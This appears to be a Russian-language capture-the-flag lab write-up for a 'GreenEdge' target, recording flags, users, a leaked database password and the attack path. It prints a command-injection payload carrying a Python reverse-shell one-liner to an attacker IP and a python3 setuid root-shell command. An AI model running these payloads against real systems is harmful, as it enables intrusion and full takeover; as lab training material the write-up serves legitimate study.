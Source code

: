 ## LOOT: GreenEdge Pentest
## 23.10.2025 | Обновлено: 24.10.2025

---

## Флаги

**Полный флаг**: `CODEBY{FR0M_F33DB4CK_70_R007_1337}`

**Компоненты**:
- **First Part**: `CODEBY{FR0M_F33DB4CK` (из `/home/charley/first_part`)
- **Last Part**: `_70_R007_1337}` (из `/root/last_part`)

## Учетные данные

**Обнаруженные пользователи**:

- `charley` - пользователь системы
- `www-data` - веб-сервер
- `root` - получен через эскалацию

**База данных (из `config.php`)**:

```php
$DB_HOST = 'localhost'
$DB_USER = 'root'
$DB_PASS = 'SuperSecret123'  
$DB_NAME = 'internal_data'
```

**Проверенные векторы**:

- SSH root: пароль не подошел
- SU root: пароль не подошел
- MySQL: сервис отсутствует
- Риск: повторное использование в других системах

## Ключевые находки

### Уязвимости:

1. **RCE через форму Feedback**
	- Вектор: `*; [command]`
	- Позволил выполнять произвольные команды
2. **Privilege Escalation через Python3 Capabilities**
	- Файл: `/usr/bin/python3.10`
	- Capability: `cap_setuid+ep`
	- Эксплойт: `os.setuid(0)`
3. **Утечка конфиденциальных данных**
	- Файл: `/var/www/html/config.php`
	- Открытые учетные данные БД
	- Риск горизонтального перемещения

### Критические файлы

- `/home/charley/first_part` - первая часть флага
- `/root/last_part` - вторая часть флага
- `config.php` - учетные данные БД

---

## Сетевая информация

**Целевая машина**:

- IP: 192.168.2.219
- Порт: 80 (HTTP), 22 (SSH)

**Атакующая машина**:

- IP: 192.168.124.79
- Порт: 9901 (Reverse Shell)

---

## Эксплойты

### Reverse Shell:

```bash
*; export RHOST="192.168.124.79";export RPORT=9901;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Privilege Escalation:

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Статус

- Initial Access
- Privilege Escalation
- Флаг получен
- Полная компрометация системы
- Утечка конфиденциальных данных

**Время выполнения: ~1 час